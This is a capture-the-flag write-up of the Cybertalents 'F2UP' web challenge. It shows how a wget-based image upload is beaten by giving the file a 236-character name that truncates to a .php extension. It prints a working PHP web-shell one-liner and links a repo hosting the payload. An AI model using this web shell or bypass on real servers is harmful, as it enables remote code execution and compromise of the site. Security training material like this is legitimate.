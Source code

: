 ```yaml
---
title: Cybertalents F2UP Web Challenge Writeup
author: Muhammad Adel
date: 2021-06-26 18:05:00 +0200
categories: [Cybertalents Writeups]
tags: [cybertalents, ctf, web]
---
```


## **Description**

this is the most secure way to file upload is it ?
**Difficulty**: Medium

[Challenge-Link](https://cybertalents.com/challenges/web/f2up)

## **Solution**

### **Exploring**

When open the challenge you will find a web page that looks like this:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUj4WW8l-Nd6y7w_Ye%2F1.png?alt=media&token=94b89bd2-deba-4bcf-86be-db97c20f3aa7)

I tried to upload a php file but it says:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUjnlZUlNs5yMCsMXe%2F2.png?alt=media&token=15f80e1a-6d55-4e5f-866a-9702d500f8f9)

Also, I uploaded a normal image to see where the path of the file uploaded is and it was in:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUjy5blQRxTtQmf2oN%2F3.png?alt=media&token=4035df8a-3488-4593-9e99-4f030b559b9a)

It seems that the website is fetching the image by its URL. So I thought it maybe an SSRF and if added my web hooker link I could receive the flag but it didn't work. there a hint in the page that says it using wget.php:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUjZn44khMdCWLuGk1%2F4.png?alt=media&token=44ba423a-ed07-4d02-95b5-3a3d99e659b8)

I searched about some unrestricted file upload bypass techniques and I stumbled upon this one:

[https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick](https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick)


### **Exploitation**

this great resource said that if you downloaded a file using wget which its name has more than 236 character the tool will truncate the rest of the string and save your file only with the first 236 character. Cool!

Let's build our file:


```bash
root@kali:~/CyberTalents/F2UP>  echo  '<?php echo system($_GET["cmd"]); ?>'  >  $(python -c 'print("A"*(236-4)+".php"+".gif")')
root@kali:~/CyberTalents/F2UP>  ls
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
```

I have added a web based shell to execute command on the server. The problem here is how we our going to upload this file to the server because it only accept a URL form.

I tried to make python server in my local machine but it didn't work. So I uploaded this file to github to be able to use in the exploit and get an RCE. Also, to make it easier for everyone who is going to use this file to solve the challenge.

[https://github.com/ItsFadinG/wget-File-Upload-Exploit](https://github.com/ItsFadinG/wget-File-Upload-Exploit)

Now, we will upload the file to the challenge server:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUmj0D7rIFtlv-K6N1%2F5.png?alt=media&token=398fb14e-2b3b-4fa5-b36a-dd4fdfeaeba5)

It has been downloaded successfully! Let's get the Flag:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUmsY3dkJB5KIElbV1%2F6.png?alt=media&token=880d8bd2-a306-45ae-9419-ecba7a98c24f)

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUmv2miVeG8P_jvASV%2F7.png?alt=media&token=f5720c43-bdc5-4ebf-8816-317658afa347)